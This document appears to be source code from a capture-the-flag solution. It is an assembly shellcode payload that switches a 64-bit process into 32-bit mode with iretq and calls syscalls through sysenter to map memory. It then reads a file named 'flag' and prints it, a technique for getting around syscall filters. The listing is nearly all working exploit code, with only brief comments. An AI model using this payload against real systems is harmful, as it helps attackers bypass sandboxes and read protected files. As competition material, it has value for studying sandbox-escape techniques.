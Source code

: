 ```assembly
	and ebx,~0xfff

; switch to 32bit
        lea     rsp, [sspace]
        lea     rcx,[next2]
	mov	eax,ss
	push	rax		; ss
	push	rsp		; rsp
	push    0x0202		; eflags
        push    0x23		; cs
        push    rcx		; rip
        iretq

fname1:	db "flag",0

[bits 32]
next2:
; try to map hashfile to vdso low memory
        mov eax, 0x5a
        push 0 ; offset
        push 3 ; fd
        push 0x11 ; flags
        push 5 ; prot
        push 0x3000 ; len
        push ebx
        mov ebx, esp
        call do_sysenter
; read
        mov eax, 3
        mov ebx, 4
        mov ecx, 0x31337
        mov edx, 128
        call do_sysenter
; write
	mov edx,eax
        mov eax, 4
        mov ebx, 1
        mov ecx, 0x31337
        call do_sysenter
; exit (and return 137)
        mov eax, 1
        mov ebx, 137
        call do_sysenter

do_sysenter:
        mov ebp, esp
        sysenter
; nopsled (god knows where sysenter will return)
        times 4096 db 0xc3

	section .bss noexec
        resq 4096
sspace:
```
